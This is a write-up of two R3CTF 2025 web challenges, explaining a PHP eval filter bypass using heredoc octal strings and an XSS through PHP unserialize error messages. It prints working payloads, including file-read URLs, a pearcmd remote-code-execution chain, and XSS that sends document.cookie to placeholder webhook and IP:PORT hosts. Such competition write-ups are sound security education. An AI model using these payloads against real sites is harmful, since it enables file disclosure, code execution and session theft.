+++
title = 'R3CTF 2025 - Evalgelist, Silent Profit'
date = 2025-07-05T13:06:03+05:30
draft = false
tags = ["web","xss","php"]
+++

**tl;dr**

+ Writeup for "Evalgelist" and "Silent Profit" from R3CTF 2025
+ Evalgelist - PHP eval filter bypass using `include` and heredoc string.
+ Silent Profit - XSS through PHP unserialize error - Creation of dynamic property Exception.

<!--more-->

# Introduction

This is a writeup for two challenges that I solved during [R3CTF 2025](https://ctf2025.r3kapig.com/games/1/) - Evalgelist and Silent Profit. 

## Evalgelist
**Challenge points**: 200
**No. of solves**: 192

### Challenge Description
Try our secure eval function

### Analysis

For this challenge, we are given the source code and an instance URL.
```php
<?php
if (isset($_GET['input'])) {
    echo '<div class="output">';

    $filtered = str_replace(['$', '(', ')', '`', '"', "'", "+", ":", "/", "!", "?"], '', $_GET['input']);
    $cmd = $filtered . '();';
    
    echo '<strong>After Security Filtering:</strong> <span class="filtered">' . htmlspecialchars($cmd) . '</span>' . "\n\n";
    
    echo '<strong>Execution Result:</strong>' . "\n";
    echo '<div style="border-left: 3px solid #007bff; padding-left: 15px; margin-left: 10px;">';
    
    try {
        ob_start();
        eval($cmd);
        $result = ob_get_clean();
        
        if (!empty($result)) {
            echo '<span class="success">✅ Function executed successfully!</span>' . "\n";
            echo htmlspecialchars($result);
        } else {
            echo '<span class="success">✅ Function executed (no output)</span>';
        }
    } catch (Error $e) {
        echo '<span class="error">❌ Error: ' . htmlspecialchars($e->getMessage()) . '</span>';
    } catch (Exception $e) {
        echo '<span class="error">❌ Exception: ' . htmlspecialchars($e->getMessage()) . '</span>';
    }
    
    echo '</div>';
    echo '</div>';
}
?>
```
This is the php code that is executed on the server. It takes one argument `input` and after a few filtrations, executes `eval` function. A few special characters are removed and our input, ideally a function name, is appended with "();" executing the function when eval is called. This means that our input is being passed to php's eval function but we have to bypass the restrictions to figure out how to get the flag.

The docker-entrypoint.sh reveals that the flag is located at `/flag`.
```bash
...
else
    INSERT_FLAG="flag{TEST_Dynamic_FLAG}"
fi

echo $INSERT_FLAG | tee /flag

chmod 744 /flag

php-fpm & nginx &

echo "Running..."
...
```
Due to the filtering out of paranthesis, we are not able to call functions with any arguments passed through parameters but we can use [language constructs](https://www.php.net/manual/en/reserved.keywords.php) like echo, include etc which do not need parantheisis.

Giving `input="echo s; echo time"` results in `eval("echo s; echo time();")` getting executed

If we were able to bypass string filtering(quotes and double quotes being removed) and slashes being filtered, we could make use of a payload like the following to read the flag file.



### Exploitation
Searching up php filter bypasses, we land on this - [php-filter-bypass-noletters-or-quotes](https://gist.github.com/ChrisPritchard/50ef7a6c79a2386037a77ccc4709d1ff). This gist mentions the use of php [heredoc syntax](https://www.php.net/manual/en/language.types.string.php#language.types.string.syntax.heredoc) which is one of the 4 ways of specifying string literals in php as mentioned [here](https://www.php.net/manual/en/language.types.string.php). None of the operators needed for heredocs are filtered and hence we can use this to craft a string.

First we convert the final string we need, ie. "/flag", into octal

Then craft the payload and check whether we get the intended result.
```php
echo <<<_
\057\146\154\141\147
_;
```
This results in the string "/flag".

URL encode the payload.


Testing it on the challenge server reveals that the string "/flag" is now being echo'ed and all we need to do now is do `include` instead of `echo`.
`http://s1.r3.ret.sh.cn:30880/?input=echo%20%3C%3C%3C_%0A%5C057%5C146%5C154%5C141%5C147%20%0A_;%20echo%20time`


### Final Exploit
`http://s1.r3.ret.sh.cn:30880/?input=include%20%3C%3C%3C_%0A%5C057%5C146%5C154%5C141%5C147%0A_;%20echo%20time`

> Flag = R3CTF{N0_FILt3r_Is_S4F3_3SP3Cl4ILy_ln_PhP-so-my-frl3Nd-donT_TRy-3v4l_1n_Y0ur_Pr0duct10n_Cod30}


## Silent Profit
**Challenge points**: 200
**No. of solves**: 56

### Challenge Description
🔇

### Analysis

Once again, we are provided with the source code for the challenge and an instance URL. This time, the challenge contains two services, `challenge` and `xssbot` which hints that we need to exploit xss to get the flag for this challenge.

Looking at bot.js, it is pretty straightforward - the bot visits the url that we submited through post request to /report, provided that the url starts with "http://challenge/". Before the bot visits the url, a cookie called "flag" is set with the flag for the challenge.

The `challenge` service contains just three lines of php code in which we are supposed to hunt for xss 🙂.
```php
<?php 
show_source(__FILE__);
unserialize($_GET['data']);
```
The Docker image it is running on is "php:8-apache" and the php version that is running is "PHP 8.4.10" which is the latest version.

Coming back to the source code, php [unserialize](https://www.php.net/manual/en/function.unserialize.php) is notorious for [deserialization bugs](https://portswigger.net/web-security/deserialization/exploiting) but the problem here is that there does not seem to be any apparent gadget that we can make use of and the unserialized data is not actually being echo'd on the page also.

One thing of note here is that when we visit the page by default, there is a warning due to undefined array key. This indicates that errors are being refleced which may be used to reflect our xss payload.


### Exploitation
To find possible gadgets we can use get_declared_classes function but not all classes can be unserialized. The following is a script generated by chatgpt to find out the list of classes that can be unserialized.
```php
<?php

$classes = get_declared_classes();
foreach ($classes as $class) {
    try {
        $payload = sprintf('O:%d:"%s":0:{}', strlen($class), $class);
        unserialize($payload);
        echo "$class\n";
    } catch (Throwable $e) {
        //echo "[❌] $class cannot be unserialized: " . $e->getMessage() . "\n";
    }
}
```

My plan was to have a script to generate serialized payloads of all these classes and check to see if any of them output anything with just `unserialize()` and no `echo unserialize()` but just by chance, the first test payload that I tried(again, generated by chatgpt) threw an error in the way I wanted it to.
`unserialize('O:9:"Exception":1:{s:8:"*message";s:25:"<script>alert(1)</script>";}');`

Trying this on the challenge URL after changing "*message" to xss payload resulted in the payload getting renderred on the page.


We can modify this to include the code which exfiltrates the cookie to our webhook, URL encode it, and send it to the admin bot to get the flag.


### Final Exploit
`O:9:"Exception":1:{s:113:"*<script>window.location='<webhook_url>/?x='+document.cookie</script>";s:25:"<script>alert(1)</script>";}`


> Flag = R3CTF{WONt-Fix_dEFIniTELy_N0T_4-s3cuRITy-I5sUe-452}


**Evalgelist**

Alternate solutions:
[link](https://discord.com/channels/1207627666342281236/1391444993209532416/1391600625069981727)
```php
echo include [__FILE__][0][0].[flag][0]; time # => echo include "/flag"; time();
```
[link](https://discord.com/channels/1207627666342281236/1391444993209532416/1391603184065314867) (no need to octal encode whole payload, just the "/")
```php
include <<<___%0Df\x2flag%0D___;%0Da
``` 
[link](https://discord.com/channels/1207627666342281236/1391444993209532416/1391603442010820689)(Nice sol using concat chrs frm php constants)
```php
require PHP_CONFIG_FILE_SCAN_DIR[0].PHP_SAPI[4].PHP_CONFIG_FILE_SCAN_DIR[9].PHP_CONFIG_FILE_SCAN_DIR[8].PHP_SAPI[6]; time => require /flag ; time
```
[link](https://discord.com/channels/1207627666342281236/1391444993209532416/1391611704974250157)
```php
include DIRECTORY_SEPARATOR . flag;#
```
[link](https://discord.com/channels/1207627666342281236/1391444993209532416/1391633937679515719)(RCE)
```php
/?+channel-discover+YOUR_WEBSITE:7777/?/&input=const a=__DIR__;const f=__FILE__;require pearcmd.f[19].php;strlen/&

/?input=const a=__DIR__;const f=__FILE__;require a[0].tmp.a[0].pear.a[0].temp.a[0].channel.f[19].xml;strlen&cmd=cat /flag
```
**Silent Profit**

Intended solution from [discord](https://discord.com/channels/1207627666342281236/1391445326157582407/1391697418097131580)
```html
/?data=O:5:"Error":1:{s:96:"<script>fetch([%27//{IP:PORT}?%27,document.cookie])</script>";b:0;}
```
Deep dive + alternate solution - [https://siunam321.github.io/ctf/R3CTF-2025/Web/Silent-Profit/](https://siunam321.github.io/ctf/R3CTF-2025/Web/Silent-Profit/)

